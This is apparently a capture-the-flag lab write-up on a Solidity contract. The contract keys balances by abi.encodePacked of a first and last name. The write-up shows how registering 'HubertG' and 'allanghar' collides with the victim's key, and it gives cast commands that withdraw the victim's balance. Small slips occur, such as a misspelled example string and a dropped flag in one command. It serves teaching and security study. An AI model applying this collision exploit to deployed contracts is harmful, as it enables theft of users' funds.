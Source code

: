 The setup first will register itself as "**Hubert Gallanghar**" and deposit 20 Ether alongside that. What we need to do is make the balance of "**Hubert Gallanghar**" become 0 to solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Singularity.sol";

contract Setup{
    Singularity public singular;

    constructor() payable{
        singular = new Singularity();
        singular.register{value: 20 ether}("Hubert", "Gallanghar");
    }

    function isSolved() public view returns(bool){
        return singular.checkBalance("Hubert", "Gallanghar") == 0;
    }

}
```
&nbsp;  
Now let's take a look at *Singularity.sol* to see what we can do and find the vulnerability. &nbsp;  
&nbsp;  
```solidity
mapping(bytes=>uint256) public balanceOf;
mapping(string=>mapping(string=>address)) public Member;
```
&nbsp;  &nbsp;  
We can see that it has 2 mappings for *balanceOf* that will track the balance based on the unique ID generated by *getIdentity* and *Member* that will track the address of the respective name (first name & last name). Next, let's see the functions. &nbsp;  
&nbsp;  
```solidity 
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}

function register(string memory _firstName, string memory _lastName) public payable{
    require(Member[_firstName][_lastName] == address(0), "Already Registered");
    require(msg.value > 0);
    bytes memory code = getIdentity(_firstName, _lastName);
    balanceOf[code] += msg.value;
    Member[_firstName][_lastName] = msg.sender;
}

function withdraw(string memory _firstName, string memory _lastName, uint256 _amount) public{
    require(Member[_firstName][_lastName] == msg.sender, "You cannot withdraw other people money!");
    bytes memory code = getIdentity(_firstName, _lastName);
    require(balanceOf[code] - _amount >= 0, "You don't have this kind of money!");
    balanceOf[code] -= _amount;
}   

function checkBalance(string memory _firstName, string memory _lastName) public view returns(uint256){
    bytes memory code = getIdentity(_firstName, _lastName);
    return balanceOf[code];
}
```
&nbsp;  
We can see that in *getIdentity()* the unique ID generator is actually using *abi.encodePacked()*, which is not recommended due to the direct concatenation. Here is an example. &nbsp;  
&nbsp;  
```text
firstName = "Hubert"
lastName = "Gallanghar"

abi.encodePacked(firstName, lastName) -> "HuberGallanghar"
(hex form) 0x48756265727447616c6c616e67686172
```
&nbsp;  
The function will return just that, so let's say what if we register ourselves using the first names "**HubertG**" and "**allanghar**"? Yep, that's correct; we will get the same concatenation of "**HubertGallanghar**", because the return value of the *getIdentity()* is also *0x48756265727447616c6c616e67686172*. Knowing this, we can just directly register using the first name and last name of "**HubertG**" and "**allanghar**" and just send 1 ether for the registration fee. &nbsp;  
&nbsp;  
```bash
// registering with HubertG allanghar
cast send -r $RPC_URL --private-key $PK $SINGULARITY_ADDR "register(string, string)" "HubertG" "allanghar" --value 1ether

// make sure that the balance is now 21 Ether
cast call -r $RPC_URL $SINGULARITY_ADDR "checkBalance(string, string)" "HubertG" "allanghar"

// make a withdrawal of 21 Ether, emptying Hubert Gallanghar balance
cast send $RPC_URL --private-key $PK $SINGULARITY_ADDR "withdraw(string, string,uint256)" "HubertG" "allanghar" 21000000000000000000
```
&nbsp;  
Why can't we use "**Hubert**" "**Gallanghar**", since we have the same bytes? It's because the original name was owned by the setup contract, and it checks whether the name owner is us (msg.sender) or not upon withdrawal. &nbsp;  
&nbsp;  
By running the command above, we should've solved the lab.